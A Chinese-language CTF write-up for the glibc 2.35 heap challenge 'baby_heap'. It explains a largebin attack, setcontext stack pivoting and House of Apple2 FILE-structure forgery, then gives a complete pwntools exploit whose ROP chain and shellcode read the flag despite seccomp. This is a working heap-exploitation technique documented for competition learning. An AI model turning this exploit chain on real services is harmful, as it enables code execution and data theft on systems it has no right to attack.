 # baby_heap
这个题目存在一次largebin attack, 还有一个部分地址写(题解没用到)

本次采用的方式是`largebin attack + setcontext + house of apple2`

## largebin attack
本题glibc为2.35,所以`largebin_attack`基本只能修改`victim->bk_nextsize`
其中具体流程如下:
1. 存在一个较大的堆块A已经置于largebin,且整个largebin只有这一个chunk
2. 走正常的堆块流程，使得一个较小的堆块B放置于largebin,这里就会出现较大的`chunkA->bk_nextsize->fd_nextsize = B`
3. 这里存在一个小小的trick或者说一个注意点，那就是当我们从unsortedbin里面获取一个较大的块的时候，比如说unsortedbin里面连接了一个0x521的chunk, 此时我申请获取0x510的快，此时并不会立刻切割，而是先将其中unsortedbin链接的chunk放入largebin(因为这是largebin的范围)当中,然后在largebin当中先寻找是否有恰好适合的堆块，如果没有才将其释放出去，这里的先链接的过程就已经造成了largebin attack(如果你已经将`chunkA->bk_nextsize`修改为target的话),使得`target->fd_nextsize = B`,但是如果B恰好又是即将分配出去的chunk,那么就进一步的会导致`target->fd_nextsize = A`

## setcontext
主要是利用了libc里面的这个函数，在高版本的libc当中是由rdx决定传入的参数，但是本题在`house of apple2`调用setcontex后的rdx竟然直接是`_wide_data`
```gdb
 0x782dc2e53a1d <setcontext+61>:      mov    rsp,QWORD PTR [rdx+0xa0]
 0x782dc2e53a24 <setcontext+68>:      mov    rbx,QWORD PTR [rdx+0x80]
 0x782dc2e53a2b <setcontext+75>:      mov    rbp,QWORD PTR [rdx+0x78]
 0x782dc2e53a2f <setcontext+79>:      mov    r12,QWORD PTR [rdx+0x48]
 0x782dc2e53a33 <setcontext+83>:      mov    r13,QWORD PTR [rdx+0x50]
```
## house of apple2
本题的重点，利用条件如下：
1. 能从main返回，或执行exit
2. 能泄露heap和libc地址
3. 能使用一次largebin attack

本次需要伪造的重点在于`struct _IO_wide_data`,
```c
/* Extra data for wide character streams.  */
struct _IO_wide_data
{
  wchar_t *_IO_read_ptr;    /* Current read pointer */
  wchar_t *_IO_read_end;    /* End of get area. */
  wchar_t *_IO_read_base;    /* Start of putback+get area. */
  wchar_t *_IO_write_base;    /* Start of put area. */
  wchar_t *_IO_write_ptr;    /* Current put pointer. */
  wchar_t *_IO_write_end;    /* End of put area. */
  wchar_t *_IO_buf_base;    /* Start of reserve area. */
  wchar_t *_IO_buf_end;        /* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  wchar_t *_IO_save_base;    /* Pointer to start of non-current get area. */
  wchar_t *_IO_backup_base;    /* Pointer to first valid character of
                   backup area */
  wchar_t *_IO_save_end;    /* Pointer to end of non-current get area. */
  __mbstate_t _IO_state;
  __mbstate_t _IO_last_state;
  struct _IO_codecvt _codecvt;
  wchar_t _shortbuf[1];
  const struct _IO_jump_t *_wide_vtable;
};
```
其中的`_wide_vtable`这个函数表是不会检查是否处于指定section内，因此可以在堆上面构造这样一个表

同样我们也需要构造`struct _IO_FILE`结构体,这个结构体中就有上述的`struct _IO_wide_data`这样的字段，同样将该字段伪造在堆上面
而由于

> 1. _flags设置为~(2 | 0x8 | 0x800)，如果不需要控制rdi，设置为0即可；如果需要获得shell，可设置为 sh;，注意前面有两个空格
2. vtable设置为`_IO_wfile_jumps/_IO_wfile_jumps_mmap/_IO_wfile_jumps_maybe_mmap`地址（加减偏移），使其能成功调用`_IO_wfile_overflow`即可
3. `_wide_data`设置为可控堆地址A，即满足*(fp + 0xa0) = A
4. `_wide_data->_IO_write_base`设置为0，即满足*(A + 0x18) = 0
5. `_wide_data->_IO_buf_base`设置为0，即满足*(A + 0x30) = 0
6. `_wide_data->_wide_vtable`设置为可控堆地址B，即满足*(A + 0xe0) = B
7. `_wide_data->_wide_vtable->doallocate`设置为地址C用于劫持RIP，即满足*(B + 0x68) = C

调用链条如下
> _IO_wfile_overflow
    _IO_wdoallocbuf
        _IO_WDOALLOCATE
            *(fp->_wide_data->_wide_vtable + 0x68)(fp)


这里记录一个比较有趣的gadget,就是libc里面的`svcudp_reply`
```
    0x751f46b4951a <svcudp_reply+26>:    mov    rbp,QWORD PTR [rdi+0x48]
    0x751f46b4951e <svcudp_reply+30>:    mov    rax,QWORD PTR [rbp+0x18]
    0x751f46b49522 <svcudp_reply+34>:    lea    r13,[rbp+0x10]
    0x751f46b49526 <svcudp_reply+38>:    mov    DWORD PTR [rbp+0x10],0x0
    0x751f46b4952d <svcudp_reply+45>:    mov    rdi,r13
    0x751f46b49530 <svcudp_reply+48>:    call   QWORD PTR [rax+0x28]
```

题目由于设置了seccomp,因此使用`openat2`来进行orw



整个题目的exp如下
```python
from pwn import *
context(arch = 'amd64', os = 'linux', log_level = 'debug')
context.terminal = ['tmux','splitw','-h']

def slog(name, address): print("\033[40;34m[+]\033[40;35m" + name + "==>" +hex(address) + "\033[0m")

def debug(cmd = 0):
    if cmd == 0:
        gdb.attach(io)
    else:
        gdb.attach(io, cmd)

s   = lambda content : io.send(content)
sl  = lambda content : io.sendline(content)
sa  = lambda content,send : io.sendafter(content, send)
sla = lambda content,send : io.sendlineafter(content, send)
rc  = lambda number : io.recv(number)
ru  = lambda content : io.recvuntil(content)
rcl = lambda : io.recvline()

def add(size):
    sla("choice: \n", "1")
    sla("size \n", str(size))


def delete(index):
    sla("choice: \n", "2")
    sla("delete: \n", str(index))


def edit(index, content):
    sla("choice: \n", "3")
    sla("edit: \n", str(index))
    sa("content \n", content)


def show(index):
    sla("choice: \n", "4")
    sla("show: \n", str(index))

def secret(choice):
    sla("choice: \n", "5")
    sla("sad !\n", str(choice))

def secret_shop(addr, overwrite):
    sla("choice: \n", "6")
    sa("addr \n", p64(addr))
    sl(p64(overwrite))

io = process("./pwn")
#io = remote("59.110.159.153",20634)
elf = ELF("./pwn")
libc = ELF("./libc.so.6")

########## leak libc heap_base ############

secret(2)

add(0x520) #1
add(0x500) #2
add(0x510) #3
delete(1)
add(0x568) #4
delete(3)
show(1)
ru("here \n")
libc.addr = u64(rc(8)) - 0x21b110
slog("libc_base", libc.addr)
rc(8)
heap_base = u64(rc(8)) - 0x1950
fake_IO_addr = heap_base + 0x1950
slog("heap_base", heap_base)
############# house of cat #################

IO_list_all = libc.symbols['_IO_list_all'] + libc.addr
setcontext = libc.symbols["setcontext"] + libc.addr + 61
IO_wfile_jumps = libc.addr + 0x216f40
lock = heap_base + 0x3000

ret = libc.addr + 0x467c9
pop_rdi = libc.addr + 0x2a3e5
pop_rsi = libc.addr + 0x2be51
pop_rdx_r12 = libc.addr + 0x11f2e7
pop_rax = libc.addr + 0x45eb0
mprotect = libc.addr + libc.symbols['mprotect']

slog("_IO_list_all", IO_list_all)
slog("_IO_wfile_jumps", IO_wfile_jumps)
slog("fake_io_addr", fake_IO_addr)
slog("setcontext",setcontext)

payload  = b''
# fake io_list_all
payload += p64(0)*3 + p64(IO_list_all - 0x20)
payload += p64(0) + p64(0)*2 + p64(fake_IO_addr + 0x10)
payload += p64(0)*4
payload += p64(0)*3 + p64(lock)
payload += p64(0)*2 + p64(fake_IO_addr+0xe0) + p64(0)
payload += p64(0)*4
payload += p64(0) + p64(IO_wfile_jumps)
# fake wide_data
payload += p64(setcontext)
payload += p64(0)*(0x1b - 8)
payload += p64(heap_base + 0x1b18) + p64(ret) + p64(0)*6
payload += p64(heap_base + 0x1a30 - 0x68)   # wide_vtable
payload += p64(pop_rdi) + p64(heap_base >> 12 << 12) + p64(pop_rsi)
payload += p64(0x2000) + p64(pop_rdx_r12) + p64(7)*2 + p64(mprotect) + p64(heap_base + 0x1b60)
payload += asm(f'mov rax, 0x67616c66; push rax; push rsp; pop rsi; mov rdi, -0x64; mov rax, 437; mov rdx, {lock}; mov r10, 0x18; syscall;')
payload += asm(shellcraft.read(3, lock, 0x100) + shellcraft.write(1, lock, 0x100))

edit(1, payload)
#debug("b *$rebase(0x1ea7)")
#secret_shop(heap_base + 0x1f3110,io_list_all_addr-0x20)
add(0x500) #5 no precise
sla("choice: \n", str(3))
io.interactive()
```



